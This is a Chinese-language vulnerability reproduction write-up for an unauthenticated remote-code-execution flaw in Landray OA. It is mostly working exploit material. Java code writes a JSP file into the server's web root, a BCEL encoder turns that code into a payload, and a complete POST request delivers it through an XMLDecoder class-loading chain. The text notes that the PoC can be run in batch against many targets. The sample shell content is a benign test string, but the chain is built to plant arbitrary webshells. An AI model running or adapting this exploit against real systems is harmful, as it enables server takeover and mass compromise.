

# 1、漏洞描述

蓝凌OA部分版本存在漏洞，前台即可实现RCE命令执行，直接getshell。

# 2、漏洞复现

#  2.1、生成payload

需要运行两段java代码，生成payload。

FastJsonEchoBCEL.java

更改shell变量的内容即可，将exp BASE64加密后替换（这里jdk要用低版本，否则无法导入BASE64Decoder包，貌似用jdk1.7、jdk1.8均可）；

```java
import java.io.PrintWriter;
import sun.misc.BASE64Decoder;

public class FastJsonEchoBCEL {
    public FastJsonEchoBCEL() throws Exception {
    }

    public static void main(String[] args) throws Exception {
        new FastJsonEchoBCEL();
    }

    static {
        try {
            Class cls=Thread.currentThread().getContextClassLoader().loadClass("bsh.Interpreter");
            String path=cls.getProtectionDomain().getCodeSource().getLocation().getPath();
            PrintWriter printWriter2 = new PrintWriter(path.split("WEB-INF")[0] + "login_test.jsp");
            String shell = "PCVvdXQucHJpbnRsbigidGhpcyBpcyBhIGZyaWVuZGx5IHRlc3QsIFBsZWFzZSBjaGVjayBhbmQgcmVwYWlyIHZ1bG5lcmFiaWxpdGllcy4iKTslPg==";
            BASE64Decoder decoder = new BASE64Decoder();
            String decodeString = new String(decoder.decodeBuffer(shell), "UTF-8");
            printWriter2.println(decodeString);
            printWriter2.close();
        } catch (Exception var5) {
        }

    }
}
```

main.java

这里需要使用maven导入org.apache.bcel包，具体方法见下面；

```
import org.apache.bcel.Repository;
import org.apache.bcel.classfile.JavaClass;
import org.apache.bcel.classfile.Utility;
import java.io.IOException;

public class main {

    public static void main(String[] args) throws ClassNotFoundException, IOException {
        JavaClass javaClass = Repository.lookupClass(FastJsonEchoBCEL.class);
        String codes = Utility.encode(javaClass.getBytes(), true);
        System.out.println("$$BCEL$$"+codes);

    }

}
```

关于这两段代码如何运行，建议使用idea软件。本地新建一个文件夹，右键以idea的project方式打开。

在idea软件中，右键该名称的项目文件夹，新建-->新模块，选择Maven，点下一步，点完成创建成功。

将上面两端代码复制到本地文件中，文件名要与上面写的一样，然后两个文件复制到创建的src/main/java目录下。

打开pom.xml，将如下内容复制到文件中

```
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.bcel/bcel -->
    <dependency>
        <groupId>org.apache.bcel</groupId>
        <artifactId>bcel</artifactId>
        <version>5.2</version>
    </dependency>
</dependencies>
```



文件-->项目结构-->项目中，选择相应的jdk版本，然后执行main.java即可得到payload。

# 2.2、漏洞验证

POST：

将如上得到的payload替换下面<string></string>标签内的内容即可。

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 2907

var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void+class%3d"com.sun.org.apache.bcel.internal.util.ClassLoader"><void+method%3d"loadClass"><string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$dbV$dbF$U$dd$D62B$E0$98KHI$934$N$Q$c0$N$974$e5$da$d8$60c0$E0$d8$b1iKeY$d8rdI$95d$Ci$ff$a7$cfy1$5de$ad$7e$40$7f$a8o$5d$3d$psu$dd$8b$d7$d2$5c$ce$ec$d9$3ag$9f$99$p$ff$fe$e7$af$bf$B$98$c5O$o$kbA$c0$a2$88$W$y$88X$c22oV$C$f8Z$c4kDDD$b1$wb$N1$Rq$ac$8bH$60C$c0$a6$80$a4$88N$y$E$b0$rb$Q$db$7c$f2$s$80$j$de$ef$8a$90$b0$X$40J$c0$be$88$7e$ce$7e$c0$fbt$A$Z$O$7e$cb$d7$b3$bc$c9$J8$U$f0$NC$db$a2fh$ee2C$eb$e8X$9a$c1$X5$L$wCWR3$d4$edj$r$af$da$fbr$5e$tK0i$w$b2$9e$96m$8d$cf$_$8d$3e$b7$a49$MO$93$8e$ad$84$x$b2f$84$cb$f2$89$ivU$c7$N$c7d$c7$ddpLcM$v$99$91$e8Zr$81A$5c$3bUT$cb$d5L$836$f98$9e$a1$7f$f40$e9m$d2e$a3$YN$b9$b6f$U$X$3cOd$bbH$b0$de$s$cb$M$81EE$bf$f2$5b$d1$J$d6s$L$V$d5e$c7$n$90$cf$92$dd$S$f7$bc$J$81d$d1$c0$cd$d8$9a$ab$da$d3$M$a1$3aF3$c3$3b7v$82$f9$9d$92$aa$eb$MBAUH$Y$9ba0$e9T$8dpEs$94p$e4uj$ed$e5$ecj$7d$85s$d6A$f5w0t$a6$5cYy$b7$r$5b$9eX$a47$J$902$ab$b6$a2$c64$$$5e$a8Q$a1$v$ee$83$84O$f1$88$e1$c9$ffPT$c0$b7$S$be$c3$91$84$ef$nS$ce$f2Ni$wa$90$e3$96$adR$x$m$_AAA$80$w$e1$YE$B$r$J$g$ca$C$deI$d0Q$R$60H0a$91$c6M$82g$Yh$94$zR$d5tO$D$n$b3$W$99Ll$c7$q$fc$A$5b$82$D$97$e1$9en$W5$e3H$d7$iw$aa$ecX$S$aa$b0x$y$t$M$eeN4$7dRx$bb$5bU$d67$ac$bc$b1$e7$e4$b5$a2V$88$97$y$e5$y$c2$9fR$o$9e$3b$933$e9j$$$7e$3a$97X$df$d3$95$99$5d$t$R$8b8$b9L$ecC$$$V$v$cb$f1tY$s$5c$be$b2$5bT$w$e9$f7$d9$8c$7e$96X$cf$bd$c8$c7$e7t$a5$S$d3$e4$cc$a9U$88$eb$bar6$abm$ee$3b$faNqi$89NV$f3D1t7$G$s$e1$3dN$v$d9$H$fb$b1$c9W$dc$e93$J$lp$o$e1G$9e$8a$de$h$f8$f5$f9$bdC$f2$s_V$V$f7$8ei$bfd$abr$81$ce$80R$b5m$d5p$af$e6$7d$a3c$c9F$U$9d$9cPQu$a3$s$a5$ee$d4$f5$Oo$d2$94$3dO$87$ee$c0o$z$f1$3dM$X$Y$dau$gx$W$ba$98$a3M$eeV$93$9b$d2$d5$60$a2$a0$c9$a3$j$dbt$v0$Kw$d5$ac_$d6$c7W$fe8$w$F$a6$b9g$e1F$M$91$8d$fc$3b$82D$f1$a2$a5$8b$e2$5d$G$86$H$7fc$bdY$r$be$c1$7fZc$e8$m$s$5e$97$$Sr$c5c$a8n$f8$60$8fW$i$e9$f6$9c$O$$$8f$ca$x$Kw$Tq$5d$W$fc$8e$a5k$94$cag$cd$84kZ$89$dad$cbR$NJ$ed$e4$7fh$7d$e7$O$f1$S$e6$9aW$95$o$d4lk$fa$ba$a0D$aa$c7$c7$3c$b3$fdM$9d$8a$d0M$j$3d$8c4g$Q$bc2$a7$938$7eE7$j$V$8f$e8$5b$f3$Q$fc$d7$K$c6K$N$cd$l$d3l$86f$8cz$ff$f89$d8G$g$b4$e0$J$b5$fc$d3$E$I$f0$n$80$cfh$q$d5Ax$8a$cf$a9$7fF$8f$8f$y$ph$c7$u$c6$$$a9$be$a4$9e$a3$da$_$d0$92$3dGk$a6$91$ae$83$c8$a4$5bt$ed$Y$c7$f3$3bt$BL$90g$8c$d3$b1Vz$5d$h$ad$94$7e$81$af$G$7f$b0$ad$Gas$bc$86$40$N$ed5$885t$q$_$me$_$d0I$_$bb$f7$3c$d8UCw$ebt$N$3d$c1$m55$f4$9e$a3o$x$Y$da$be$40$3f$B$G$e6$7d$X$Y$cc$O$f9$sk$Y$K$de$3f$c7$f0$bc$7fb$c8_$c3$83$89$g$3e$f9$Z$be$cd$8f$9eO$KU$cc$R$d2$88$7b$3dE$k$D$dd$e4m$P$ee$p$88E$f4b$F$7dXG$IY$fa$ba$ka$80$f0C$b4c$QE$M$7b$91$z$93$cf$S2$98$a4$dd$a0$5d$J$84$f1$F1$_R$94$_0M$3a$ac$Qn$86l$ad$c43L$7f$H$e6$u$f6$y$v$f4$92l$7e$S$91$eb$d2$f2$H$8e$F$bc$o$V$f0$95$t$e2$fc_$3f$bb$d2$b6$3e$I$A$A</string><void+method%3d"newInstance"></void></void></void></java>
```

# 3、poc

payload需要手工单独生成。

poc配合框架可批量。